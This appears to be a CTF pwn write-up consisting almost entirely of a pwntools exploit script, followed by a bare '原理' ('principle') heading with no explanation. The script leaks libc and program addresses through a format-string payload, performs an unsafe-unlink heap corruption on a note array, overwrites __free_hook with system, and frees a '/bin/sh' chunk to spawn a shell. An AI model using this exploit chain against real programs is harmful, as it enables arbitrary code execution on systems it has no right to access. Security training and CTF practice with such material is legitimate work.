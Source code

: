 ```python
pl = b'%15$p-%11$p'
sla("name: ",pl)
ru(b"0x")
leak = int(rc(12),16)
libcbase = leak - 240 - libc.sym['__libc_start_main']
info_addr("libcbase",libcbase)
free_hook = libcbase + libc.sym['__free_hook']
system = libcbase + libc.sym['system']

ru(b"-0x")


leak = int(rc(12),16)
base = leak - 0x1186
info_addr("program_base",base)

note = base + 0x202060
target = note

add(0,0x88,b'a') # !!!
add(1,0x88,b'a')
add(2,0x88,b'/bin/sh\x00')

pl = p64(0) + p64(0x80) + p64(target-0x18) + p64(target-0x10)
pl = pl.ljust(0x80,b'\x00')
pl += p64(0x80) + p64(0x90)
edit(0,pl)

free(1)

pl = p64(0)*3 + p64(free_hook)
pl += p64(0x10) # content's length !!!
edit(0,pl)
pl = p64(system)
edit(0,pl)
info_addr("note",0x202060+base)
#debug()
free(2)
#debug()


p.interactive()
```







# 原理
